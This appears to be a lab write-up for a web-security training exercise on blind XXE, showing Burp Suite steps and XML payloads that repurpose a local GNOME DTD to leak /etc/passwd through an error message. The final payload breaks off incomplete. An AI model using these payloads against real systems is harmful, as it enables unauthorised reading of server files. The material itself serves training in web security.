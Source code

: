 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516220411.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516220538.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516221619.png)

### Exploiting XXE to retrieve data by repurposing a local DTD
```bash

#### This lab has a "Check stock" feature that parses XML input but does not display the result.

#### To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

#### You'll need to reference an existing DTD file on the server and redefine an entity from it.

##### Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
<stockCheck>1<productId>1</productId>
<storeId>1</storeId></stockCheck>

Response:

HTTP/1.1 200

Visit:

https://www.apt-browse.org/browse/ubuntu/bionic/main/amd64/yelp/3.26.0-1ubuntu2/file/usr/share/yelp/dtd/docbookx.dtd

Note the first entity name: "ISOamsa"

<!ENTITY % ISOamsa PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Arrow Relations//EN//XML"
"isoamsa.ent">

Change:

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
```